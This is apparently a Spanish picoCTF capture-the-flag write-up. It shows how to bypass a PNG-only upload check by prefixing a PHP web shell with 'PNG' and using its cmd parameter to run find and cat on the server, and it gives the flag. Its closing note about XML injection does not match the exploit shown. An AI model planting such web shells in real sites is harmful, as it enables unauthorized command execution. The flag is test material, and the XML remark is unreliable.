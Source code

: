 ## Descripción  
I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge instance.

## Datos de Acceso al Nivel
user: carlosof / kali 
password:

## Solución
- Ingresamos a la pagina web, nos podemos dar cuenta de que la pagina nos pide un que subamos un archivo .png, si lo intenamos con algun otro tipo de archivo, sera rechazado.
- Si en la url, ingresamos a la ruta  `/robots.txt` encontraremos información de una ruta llamada `/instructions.txt` en esta encontreamos el siguiente mensaje.
```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```
- Hacemos los siguiente en la terminal
```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ curl -i http://atlas.picoctf.net:52863/
HTTP/1.1 200 OK
Date: Mon, 30 Sep 2024 19:00:02 GMT
Server: Apache/2.4.56 (Debian)
X-Powered-By: PHP/8.0.30
Vary: Accept-Encoding
Content-Length: 321
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html>
<head>
    <title>File Upload Page</title>
</head>
<body>
    <h1>Welcome to my PNG processing app</h1>

    
    <form method="POST" enctype="multipart/form-data">
        <input type="file" name="file" accept=".png">
        <input type="submit" value="Upload File">
    </form>
</body>
</html>

                                                                                                                                                                      
┌──(kali㉿kali)-[~/Desktop]
└─$ gedit shell.png.php &                  

PNG
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>

```
- El primer comando es para ver información útil acerca de la pagina, así nos podemos dar cuenta que se uso PHP.
- Con el segundo comando creamos un archivo de tipo shell con la extensión PNG ya que es el único tipo de archivos que admite y al final PHP ya que es el lenguaje en el que se hizo la pagina.
	- Dentro del archivo, al principio escribimos PNG para que de esta manera se reconozca como un archivo .png y no sea rechazado.
- Podemos deducir que hay una carpeta en la que se almacenan las descargas llamada `uploads`, si ingresamos a la siguiente ruta `/uploads/shell.png.php`
- Ahora tenemos que agregar la instrucción a php `?cmd=find / -name *txt 2>/dev/null` y nos mostrara lo siguiente 
```bash
PNG

/usr/lib/python3.9/LICENSE.txt
/usr/local/lib/php/.channels/.alias/pear.txt
/usr/local/lib/php/.channels/.alias/pecl.txt
/usr/local/lib/php/.channels/.alias/phpdocs.txt
/usr/local/lib/php/doc/Archive_Tar/docs/Archive_Tar.txt
/usr/share/perl/5.32.1/Unicode/Collate/allkeys.txt
/usr/share/perl/5.32.1/Unicode/Collate/keys.txt
/usr/share/perl/5.32.1/unicore/Blocks.txt
/usr/share/perl/5.32.1/unicore/NamedSequences.txt
/usr/share/perl/5.32.1/unicore/SpecialCasing.txt
/var/www/html/HFQWKODGMIYTO.txt
/var/www/html/instructions.txt
/var/www/html/robots.txt
```
- Ingresamos a la ruta `/var/www/html/HFQWKODGMIYTO.txt` y obtenemos la bandera.
- /* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17} */
- De igual manera se puede realizar un `cat` : `http://atlas.picoctf.net:64607/uploads/shell.png.php?cmd=cat%20/var/www/html/HFQWKODGMIYTO.txt` y también se obtiene la bandera.
## Notas Adicionales
La inyección XML es una técnica de ataque en la que un atacante manipula datos XML en una aplicación para explotar vulnerabilidades en el procesamiento de XML. Este tipo de inyección es similar a otras inyecciones, como la inyección SQL, pero se centra en la forma en que se manejan los datos XML.

## Referencias 
https://play.picoctf.org/practice/challenge/445?page=1&search=tricks
https://github.com/backdoorhub/shell-backdoor-list/blob/master/shell/php/simple-shell.php
